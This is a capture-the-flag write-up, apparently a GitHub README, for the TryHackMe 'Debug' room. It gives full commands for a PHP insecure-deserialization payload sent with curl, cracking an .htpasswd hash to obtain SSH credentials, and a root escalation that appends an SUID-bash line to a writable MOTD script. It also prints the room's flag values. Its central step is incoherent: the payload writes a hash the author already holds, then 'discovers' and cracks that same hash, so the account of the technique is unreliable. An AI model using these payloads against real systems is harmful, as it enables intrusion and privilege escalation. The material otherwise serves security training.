


# 🐛 Debug — TryHackMe Writeup


> **Author:** Miraç Akkuş (LatenT)  
> **Date:** May 2026  
> **Room:** [Debug](https://tryhackme.com/room/debug)

---

## 📋 Executive Summary

This writeup documents the complete compromise of the **Debug** machine, demonstrating an attack chain leveraging PHP insecure deserialization to access a hidden `.htpasswd` file, cracking the hash to obtain SSH credentials, and ultimately escalating privileges via MOTD (Message of the Day) script poisoning to achieve root access.

---

## 🛠️ Tools & Technologies

| Tool | Purpose |
|------|---------|
| `nmap` | Network reconnaissance and service enumeration |
| `gobuster` / `ffuf` | Directory and file discovery |
| `php` | Custom deserialization payload generation |
| `john` | Password hash cracking |
| `ssh` | Remote access |
| `nc` | Reverse shell listener |

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### Network Scanning

```bash
nmap -sV -sC -T4 <YOUR_MACHINE_IP>
```

### Findings

| Port | State | Service | Version |
|------|-------|---------|---------|
| 22/tcp | open | SSH | OpenSSH |
| 80/tcp | open | HTTP | Apache httpd 2.4.18 |

### Directory Enumeration

```bash
gobuster dir -u http://<YOUR_MACHINE_IP> -w /usr/share/wordlists/dirb/common.txt
```

**Discovered Directories:**

| Directory | Contents | Significance |
|-----------|----------|--------------|
| `/backup` | Backup files | Source code leakage |
| `/grid` | Grid interface | Potential attack surface |
| `/javascripts` | JS files | Requires analysis |

### Source Code Analysis

`/backup/index.php.bak` was examined:

```php
<?php
class FormSubmit {
    public $form_file = 'message.txt';
    public $message = 'Test';
    
    public function __destruct() {
        file_put_contents($this->form_file, $this->message);
    }
}

// ... deserialization logic ...
$data = unserialize($_GET['debug']);
?>
```

**Critical Vulnerability:** `unserialize()` is called with user-controlled input. The `__destruct()` method provides arbitrary file write capability via `file_put_contents()`.

---

## 🎯 Phase 2: PHP Insecure Deserialization

### Payload Crafting

```php
<?php
class FormSubmit {
    public $form_file = '.htpasswd';
    public $message = 'james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1';
}

$payload = serialize(new FormSubmit());
echo urlencode($payload);
?>
```

### Exploitation

```bash
curl "http://10.113.140.151/?debug=O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A9%3A%22.htpasswd%22%3Bs%3A7%3A%22message%22%3Bs%3A37%3A%22james%3A%24apr1%24zPZMix2A%24d8fBXH0em33bfI9UTt9Nq1%22%3B%7D"
```

### .htpasswd Retrieval

```bash
curl http://<YOUR_MACHINE_IP>/.htpasswd
```

**Discovery:**
```
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
```

### Hash Cracking

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Result:** `jamaica`

---

## 🐚 Phase 3: SSH Access & User Flag

### SSH Login

```bash
ssh james@10.113.140.151
# Password: jamaica
```

### User Flag

```bash
cat /home/james/user.txt
```

**User Flag:** `THM{7e37c84a66cc40b1c6bf700d08d28c20}`



---

## 🚀 Phase 4: Privilege Escalation (MOTD Poisoning)

### Internal Discovery

```bash
cat /home/james/Note-To-James.txt
```

**Content:**
> *"James, you've been granted permission to edit MOTD messages. Please display a nice message on system login."*

### MOTD Directory Analysis

```bash
ls -la /etc/update-motd.d/
```

**Finding:** `00-header` file is writable by the `james` group.

### Script Poisoning

```bash
echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' >> /etc/update-motd.d/00-header
```

### Triggering

Open a new SSH session to trigger the MOTD script:

```bash
ssh james@10.113.140.151
# Logout
```

### Root Shell

```bash
/tmp/rootbash -p
# euid=0(root)
```

### Root Flag

```bash
cat /root/root.txt
```

**Root Flag:** `THM{3c8c3d0fe758c320d158e32f68fabf4b}`



---

## 🗺️ Attack Path Visualization

```
[Attacker]
    │
    ├───nmap───► [Target: 22, 80]
    │                │
    │                ▼
    │        [gobuster: /backup, /grid, /javascripts]
    │                │
    │                ▼
    │        [/backup/index.php.bak]
    │                │
    │                ▼
    │        [unserialize() + __destruct() analysis]
    │                │
    │                ▼
    │        [Custom payload: .htpasswd write]
    │                │
    │                ▼
    │        [.htpasswd read: james:$apr1$...]
    │                │
    │                ▼
    │        [john: jamaica]
    │                │
    │                ▼
    │        [SSH: james:jamaica]
    │                │
    │                ▼
    │        [User Flag]
    │                │
    │                ▼
    │        [Note-To-James.txt: MOTD permission]
    │                │
    │                ▼
    │        [/etc/update-motd.d/00-header writable]
    │                │
    │                ▼
    │        [SUID bash injection]
    │                │
    │                ▼
    │        [New SSH session → MOTD trigger]
    │                │
    │                ▼
    └────────► [Root shell + Root Flag]
```

---

## 🛡️ Vulnerability Assessment & Remediation

| # | Vulnerability | Severity | CVSS | Remediation |
|---|--------------|----------|------|-------------|
| 1 | **PHP Insecure Deserialization** | 🔴 Critical | 9.8 | Use `json_decode()` instead of `unserialize()`; disable object creation; implement input validation |
| 2 | **Backup File Exposure** | 🟠 High | 7.5 | Remove `.bak` files from web root; disable directory listing |
| 3 | **Weak Password Hash** | 🟠 High | 7.0 | Use bcrypt/Argon2; enforce strong password policy |
| 4 | **Writable MOTD Scripts** | 🔴 Critical | 9.0 | Keep MOTD files under root ownership; remove from `james` group |
| 5 | **SUID Binary Creation** | 🔴 Critical | 9.0 | Restrict with AppArmor/SELinux; monitor writable directories |

---

## 🎓 Key Takeaways

1. **Backup Files:** `.bak`, `.old`, `.zip` extensions frequently contain source code leakage
2. **Magic Methods:** PHP methods like `__destruct()`, `__wakeup()` are critical in deserialization chains
3. **File Put Contents:** `unserialize()` combined with `file_put_contents()` is a classic RCE vector
4. **MOTD Poisoning:** Often overlooked privilege escalation path; always check permissions
5. **Group Ownership:** `james` group write access on root files creates security risks

---

## 📁 Repository Structure

```
.
├── README.md
├── nmap/
│   └── debug_scan.nmap
├── exploits/
│   ├── deserialize_payload.php
│   └── motd_poison.sh
├── credentials/
│   └── htpasswd_crack.txt
└── screenshots/
    ├── backup_directory.png
    ├── source_code.png
    ├── john_crack.png
    ├── ssh_login.png
    ├── motd_permissions.png
    └── root_shell.png
```

---

## 🚩 Flags

| Flag | Location | Value |
|------|----------|-------|
| **User Flag** | `/home/james/user.txt` | `THM{7e37c84...2c20}` |
| **Root Flag** | `/root/root.txt` | `THM{3c8c3d0...ab4b}` |

---

> **⚠️ Legal Disclaimer:** This writeup is for educational and research purposes only. Always obtain explicit written authorization before testing systems you do not own.

---

**Author:** Miraç Akkuş (LatenT)  
**Date:** May 2026
